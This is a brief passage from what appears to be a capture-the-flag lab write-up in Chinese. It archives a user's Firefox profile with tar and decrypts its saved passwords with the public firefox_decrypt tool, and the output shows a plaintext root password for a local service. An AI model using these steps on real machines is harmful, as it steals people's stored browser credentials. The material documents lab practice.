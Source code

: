压缩firefox的文件到本地

```
tar -cvf firefox.tar.gz /home/elliot/.mozilla/firefox/esmhp32w.default-default/
```

解密的firefox的密码

> https://github.com/Unode/firefox_decrypt

```
┌──(root💀kali)-[/tmp/home/elliot]
└─# python3 /opt/firefox_decrypt/firefox_decrypt.py /tmp/home/elliot/.mozilla/firefox/esmhp32w.default-default 
2022-09-06 09:28:25,093 - WARNING - profile.ini not found in /tmp/home/elliot/.mozilla/firefox/esmhp32w.default-default
2022-09-06 09:28:25,093 - WARNING - Continuing and assuming '/tmp/home/elliot/.mozilla/firefox/esmhp32w.default-default' is a profile location

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'

```

![image-20230208150110049](../../.gitbook/assets/image-20230208150110049.png)
